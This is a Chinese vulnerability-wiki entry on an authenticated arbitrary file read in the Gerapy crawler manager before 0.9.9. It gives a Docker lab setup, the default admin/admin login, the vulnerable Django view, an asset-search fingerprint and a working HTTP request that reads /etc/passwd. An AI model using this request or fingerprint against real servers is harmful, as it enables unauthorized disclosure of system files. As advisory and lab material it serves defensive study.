



# Gerapy project_file_read 后台任意文件读取漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：需要有效认证 API 会话；读写或命令执行权限受 Gerapy 服务账户限制
- 证据范围：Concise source trace/path+label read with pinned code link

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Body vulnerability link pointsL339 while reference pointsL548-L561; correct source location
- Read returns UTF8-decoded bytes so unrestricted binary file disclosure not demonstrated
- Captured API token; incomplete compose build context

### 操作风险与资料使用

- 文中的明文凭据、会话或密钥已用中段星号脱敏，保留首尾供比对；示例不能直接照抄登录。仅替换为自有隔离环境凭据，已暴露的真实凭据应撤销或轮换。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Gerapy 是一款基于 Scrapy、Scrapyd、Django 和 Vue.js 的分布式爬虫管理框架。

Gerapy < 0.9.9 存在任意文件读取漏洞，函数 `project_file_read` 的 `path` 和 `label` 参数可控，经过身份验证的攻击者可以读取任意文件。

参考链接：

- https://github.com/Gerapy/Gerapy/issues/210
- https://github.com/Gerapy/Gerapy/blob/af5657354aa040d5a6b52c91a837f5d63422d6d3/gerapy/server/core/views.py#L548-L561

## 漏洞影响

```
Gerapy < 0.9.9
```

## 网络测绘

```
title="Gerapy"
```

## 环境搭建

docker-compose.yml

```
version: "3.9"

services:

  gerapy:
    image: germey/gerapy:0.9.6
    build: .
    container_name: gerapy
    restart: always
    volumes:
      - gerapy:/home/gerapy
    ports:
      - 8000:8000

volumes:
  gerapy:
```

执行如下命令启动一个 Gerapy 0.9.6 版本的服务器：

```shell
docker-compose up -d
```

启动完成后，访问 `http://your-ip:8000` 即可查看登录页面，通过默认口令 `admin/admin` 登录后台。




## 漏洞复现

[漏洞点](https://github.com/Gerapy/Gerapy/blob/af5657354aa040d5a6b52c91a837f5d63422d6d3/gerapy/server/core/views.py#L339) 位于 `gerapy/server/core/views.py`：

```
@api_view(['POST'])
@permission_classes([IsAuthenticated])
def project_file_read(request):
    """
    get content of project file
    :param request: request object
    :return: file content
    """
    if request.method == 'POST':
        data = json.loads(request.body)
        path = join(data['path'], data['label'])
        # binary file
        with open(path, 'rb') as f:
            return HttpResponse(f.read().decode('utf-8'))
```




构造请求包：

```http
POST /api/project/file/read HTTP/1.1
Host: your-ip:8000
Accept: */*
Referer: http://your-ip:8000/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Authorization: Token e8************************e5

{"path":"/etc/","label":"passwd"}
```




## 漏洞修复

升级至安全版本。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
